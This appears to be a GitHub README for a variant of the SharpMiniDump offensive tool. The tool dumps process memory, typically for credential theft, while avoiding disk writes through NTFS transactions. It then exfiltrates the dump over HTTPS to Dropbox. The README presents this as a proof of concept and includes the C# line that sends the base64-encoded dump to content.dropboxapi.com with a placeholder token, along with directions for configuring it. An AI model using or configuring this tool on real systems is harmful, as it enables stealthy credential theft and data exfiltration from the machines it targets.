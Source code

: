 # SharpMiniDump

Implementation of b4rtiks's [SharpMiniDump](https://github.com/b4rtik/SharpMiniDump) using NTFS transactions to avoid writting the minidump to disk and exfiltrating it via HTTPS using sockets. As a POC, dropbox is used to exfiltrate the data but this can me easily modified.

If you wish to use dropbox, just change the following parameters at Program.cs:201 and you are good to go.

```C#
SslTcpClient.RunClient("content.dropboxapi.com", "<FOLDER>", "<DROPBOX TOKEN>", b64);
```


 

